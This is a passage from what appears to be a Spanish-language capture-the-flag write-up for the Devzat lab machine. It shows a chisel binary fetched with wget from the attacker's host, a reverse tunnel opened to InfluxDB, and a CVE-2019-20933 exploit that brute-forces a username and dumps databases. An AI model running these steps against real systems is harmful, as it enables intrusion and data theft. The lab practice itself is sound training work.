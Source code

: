 ```console
p3ntest1ng:~$ sudo python3 -m http.server 80
```

En la máquina Devzat nos creamos un directorio en **`/tmp`** con el nombre que queramos.
Nos descargamos el archivo, lo descomprimimos, le damos permisos de ejecución y nos conectamos al servidor tunelizado que levantamos anteriormente:

```console
patrick@devzat:~$ cd /tmp && mkdir any0ne; cd any0ne
patrick@devzat:/tmp/any0ne$ wget http://10.10.15.113/chisel_1.7.6_linux_amd64.gz
--2022-01-24 07:09:00--  http://10.10.15.113/chisel_1.7.6_linux_amd64.gz
Connecting to 10.10.15.113:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3288156 (3.1M) [application/gzip]
Saving to: ‘chisel_1.7.6_linux_amd64.gz’

chisel_1.7.6_linux_amd64.gz     100%[==================>]   3.14M  3.03MB/s    in 1.0s    

2022-01-24 07:09:02 (3.03 MB/s) - ‘chisel_1.7.6_linux_amd64.gz’ saved [3288156/3288156]
patrick@devzat:/tmp/any0ne$ gunzip chisel_1.7.6_linux_amd64.gz
patrick@devzat:/tmp/any0ne$ chmod +x chisel_1.7.6_linux_amd64
patrick@devzat:/tmp/any0ne$ mv chisel_1.7.6_linux_amd64 chisel
patrick@devzat:/tmp/any0ne$ ./chisel client 10.10.15.113:9999 R:8086:127.0.0.1:8086
2022/01/24 07:20:17 client: Connecting to ws://10.10.15.113:9999
2022/01/24 07:20:18 client: Connected (Latency 48.760893ms)
```

Ya tenemos todo listo para ejecutar el exploit desde nuestra máquina:

```console
p3ntest1ng:~$ python3 __main__.py
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |  
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_ 
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_ 
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |                  
                                                         |_|                  
CVE-2019-20933

Insert ip host (default localhost): 
Insert port (default 8086): 
Insert influxdb user (wordlist path to bruteforce username): /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt

Start username bruteforce
[x] root
[v] admin

Host vulnerable !!!
Databases list:

1) devzat
2) _internal

Insert database name (exit to close): devzat
[devzat] Insert query (exit to change db): show measurements
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
```
